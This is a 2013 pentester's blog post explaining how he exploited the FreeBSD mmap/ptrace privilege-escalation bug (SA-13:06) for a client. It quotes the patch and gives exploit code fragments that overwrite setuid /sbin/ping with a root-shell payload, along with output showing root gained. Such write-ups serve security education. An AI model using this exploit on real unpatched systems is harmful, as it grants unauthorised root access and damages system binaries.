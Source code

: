 ```yaml
---
layout: post
title: I feel lucky - or why I wrote a FreeBSD 1-day in one day
author: hugsy
tags:
- freebsd
- pentest
date: 2013-06-20 00:00 +0000
---
```


Sometimes life gives you eggs for free, you just need to spend some time making an omelet. That's exactly what happened to me on a recent engagement for a client: a typical PHP webapp full of holes left me with a nice stable shell access.

But at that point I was stuck: I had a limited account (`www`) on this FreeBSD 9.1 (almost) up-to-date box, and interestingly  the privilege separation was done correctly enough to prevent me from getting `root` access simply by abusing the usual suspects (weak FS permission, setuid bins, privileged scripts and the likes).

So it was with little hope I decided to take a look at the [recent advisories for FreeBSD](https://www.freebsd.org/security/advisories/) which I really like because they are well maintained. One title struck my eye immediately: [SA-13:06.mmap - Privilege escalation via `mmap`](https://www.freebsd.org/security/advisories/FreeBSD-SA-13:06.mmap.asc), published the day right before!

I decided to look into it at first with not much hope, thinking the exploit would be crazy hard to trigger and heavily deep inside FreeBSD kernel. The description was actually (on purpose?) quite generic

> Due to insufficient permission checks in the virtual memory system, a tracing process (such as a debugger) may be able to modify portions of the traced process's address space to which the traced process itself does not have write access.

But the [patch](http://security.FreeBSD.org/patches/SA-13:06/mmap.patch) gave me a better idea of the issue:

{% highlight patch %}
Index: sys/vm/vm_map.c
===================================================================
--- sys/vm/vm_map.c	(revision 251636)
+++ sys/vm/vm_map.c	(working copy)
@@ -3761,6 +3761,12 @@ RetryLookup:;
 		vm_map_unlock_read(map);
 		return (KERN_PROTECTION_FAILURE);
 	}
+	if ((fault_typea & VM_PROT_COPY) != 0 &&
+	    (entry->max_protection & VM_PROT_WRITE) == 0 &&
+	    (entry->eflags & MAP_ENTRY_COW) == 0) {
+		vm_map_unlock_read(map);
+		return (KERN_PROTECTION_FAILURE);
+	}

 	/*
 	 * If this page is not pageable, we have to get it for all possible
{% endhighlight %}

It kindda gave a good pointer of where to start: the usual rule for setuid dictates that a write access should immediately imply losing the elevated privilege. But this is where the bug was: by `mmap` a setuid binary (which any user can do), I can then choose to `ptrace` the process, and use `PT_WRITE` command to overwrite the `mmap`-ed memory, effectively overwriting the setuid binary!

_Note_: I was in a rush, so my exploit is partially destructive as I overwrite directly the setuid binary. If you choose to use it, please make a copy to be able to restore it.

My exploit was in 4 parts:

1. `mmap` the target binary (here I chose `/sbin/ping`)
```c
int fd = open("/sbin/ping", O_RDONLY);
caddr_t addr = mmap(NULL, LEN, PROT_READ, MAP_SHARED, fd, 0);
```

2. `fork` to passe to be the mmaped address to a process I can attach to using `ptrace()`

3. in the parent process, I attach to the child process and then prepare a basic payload to substitute the original code with
```c
	if (ptrace(PT_ATTACH, pid, 0, 0) < 0) {
		perror("[-] ptrace(PT_ATTACH) failed");
		return;
	}
   [...]
   int fd = open("./sc.c", O_WRONLY|O_CREAT,  S_IRUSR | S_IWUSR | S_IRGRP | S_IWGRP | S_IROTH);
	write(fd,
         "#include <stdio.h>\n"\
         "main(){ "\
         "char* s[]={\"/bin/sh\",NULL};"\
         "setuid(0);execve(s[0],s,0); }\n",
         84);
	close(fd);
	system("gcc -o ./sc ./sc.c");
```

4. all done, we could now copy our payload 1 DWORD at a time using `ptrace(PT_WRITE_D)`
```c
   fd = open("./sc", O_RDONLY);
	while (1) {
		int a;
		int n = read(fd, &a, sizeof(int));
		if (n <= 0) break;
		ptrace(PT_WRITE_D, pid, mmap_setuid_address+i, a);
		i+=n;
	}
```

Done! Simply execute the target binary to get a root shell.

```bash
 $ id
 uid=1001(user) gid=1001(user) groups=1001(user)
 $ gcc -Wall ./mmap.c && ./a.out
 [+] Saved old '/sbin/ping'
 [+] Using mmap-ed area at 0x281a4000
 [+] Attached to 3404
 [+] Copied 4917 bytes of payload to '/sbin/ping'
 [+] Triggering payload
 # id
 uid=0(root) gid=0(wheel) egid=1001(user) groups=1001(user),0(wheel)
```

By nature, this exploit is very stable and I was able to report that I had `root` access to my customer :)
I was undeniably lucky to find exactly the privesc I need just exactly when I needed it (kudos to Konstantin Belousov & Alan Cox for the finding), but it also taught me that there can be a huge difference of postponing applying patches, even if for one day...

Cheers mates!

PS: for the full [quick'n dirty exploit](https://gist.github.com/hugsy/5933831)
